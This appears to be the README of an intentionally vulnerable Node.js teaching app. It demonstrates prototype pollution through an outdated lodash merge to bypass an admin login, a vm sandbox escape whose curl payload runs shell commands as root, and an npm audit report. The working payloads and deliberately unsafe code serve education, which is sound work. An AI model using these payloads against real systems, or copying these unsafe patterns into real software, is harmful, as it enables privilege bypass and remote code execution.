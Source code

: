 [中文版](/README_zh.md)
# Demonstration of classic nodejs vulnerability

This intentionally-vulnerable app demonstrate three classic vulnerabilities in nodejs:

- prototype pollution
- sandbox escape
- vulnerable third-party packages(which introduce the prototype pollution vulnerability)

## How to set up

using docker:

```
$ docker compose up
```

using local env:

```
$ npm i && npm start
```

Then access http://localhost:9999/

## Vulnerability Demonstration

### prototype pollution

```javascript
  app.post('/api/orders', validate(postOrderSchema), (req, res, next) => {
    const clientOrder = _.merge({}, req.body, { ipAddress: req.ip });

    const newObj = {};
    console.log('newObj.admin', newObj.admin);

    res.json({
      status: 'ok',
    });
  });
```

the third party package "lodash" is outdated and vulnerable to prototype pollution vulnerability in the `merge` function

normal request:

```bash
$ curl -H"content-type: application/json" -d @normal_order.json http://localhost:9999/api/orders

{"status":"ok"}
```

attacking request:

```bash
$ curl -H"content-type: application/json" -d @attack_order.json http://localhost:9999/api/orders

{"status":"ok"}
```

the `attack_order.json` contains the prototype pollution payload:

```json
{
  "__proto__": { "admin": true },
  "currency": "EUR",
  "email": "john.doe@mail.com"
}
```

it tries to pollute the `Object.prototype` and add an attribute `admin` to it, this will affect the route at `/api/login` defined below:

```javascript
  function login(username, password) {
    if (username == 'admin' && password == 'thisisaveryveryverylongpassword') {
      return { user: 'admin', admin: true };
    } else {
      return { user: 'guest' };
    }
  }

  const loginSchema = {
    body: Joi.object({
      username: Joi.string().required(),
      password: Joi.string().required(),
    }),
  };
  app.post('/api/login', validate(loginSchema), (req, res, next) => {
    user = login(req.body.username, req.body.password);
    if (user.admin) {
      res.json({
        secret: "this is a top secret",
      });
    } else {
      res.json({
        error: "not admin"
      });
    }
  });
```

only if user input the correct username and password for admin, `login` function will return an object with 'admin' set to true, otherwise, `login` function will return an object without admin attribute.



Before the attacker pollute the `Object.prototype`, it works normally:

```bash
$ curl -H"content-type: application/json" -d'{"username":"admin","password":"idontknowpassword"}' http://localhost:9999/api/login

{"error":"not admin"}

----------------

$ curl -H"content-type: application/json" -d'{"username":"admin","password":"thisisaveryveryverylongpassword"}' http://localhost:9999/api/login

{"secret":"this is a top secret"}
```

after attacker sends the attacking request and pollutes the `Object.prototype`, he can gain admin privilege without knowing the admin password:

```bash
$ curl -H"content-type: application/json" -d'{"username":"admin","password":"idontknowpassword"}' http://localhost:9999/api/login

{"secret":"this is a top secret"}
```

This is because in the `/api/login` route, it checks for `user.admin`, when admin attribute is not found, it will search up to `__proto__`, which is `Object.prototype` and found the polluted admin attribute

### sandbox escape

there is another route at `/api/calc`, which is meant for doing some simple math calculation:

```javascript
  const mathExp = {
    body: Joi.object({
      exp: Joi.string().required(),
    }),
  };
  app.post('/api/calc', validate(mathExp), (req, res, next) => {
    console.log(req.body.exp);
    ans = vm.runInNewContext(req.body.exp);

    res.json({
      ans: ans,
    });
  });
```

```bash
curl -H"content-type: application/json" -d'{"exp":"2+3*4"}' http://localhost:9999/api/calc

{"ans":14}
```

it's trying to evaluate the expression from the client using vm module, which is not safe, and can be bypassed and achieve remote code execution:

```bash
$ curl -H"content-type: application/json" -d $'{\"exp\":\"(e=> { return this.constructor.constructor(\'return process\')().mainModule.require(\'child_process\').execSync(\'id\').toString();})()\"}' http://localhost:9999/api/calc

{"ans":"uid=0(root) gid=0(root)\n"}
```

### vulnerable third-party packages

as shown in the prototype pollution vulnerability, the lodash package is outdated and vulnerable to prototype pollution, we can identify this issue using `npm audit` command:

```bash
$ npm audit
# npm audit report

lodash  <=4.17.20
Severity: critical
Regular Expression Denial of Service (ReDoS) in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-4xc9-xhrj-v574
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Regular Expression Denial of Service (ReDoS) in lodash - https://github.com/advisories/GHSA-29mw-wpgm-hmr9
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
fix available via `npm audit fix --force`
Will install lodash@4.17.21, which is outside the stated dependency range
node_modules/express-validation/node_modules/lodash
node_modules/lodash

qs  6.7.0 - 6.7.2
Severity: high
qs vulnerable to Prototype Pollution - https://github.com/advisories/GHSA-hrpp-h998-j3pp
fix available via `npm audit fix`
node_modules/qs
  body-parser  1.19.0
  Depends on vulnerable versions of qs
  node_modules/body-parser
  express  4.17.0 - 4.17.1 || 5.0.0-alpha.1 - 5.0.0-alpha.8
  Depends on vulnerable versions of body-parser
  Depends on vulnerable versions of qs
  node_modules/express

4 vulnerabilities (3 high, 1 critical)

To address issues that do not require attention, run:
  npm audit fix

To address all issues, run:
  npm audit fix --force
```

you can then analyze the report and update the affected packages to fix the issue.
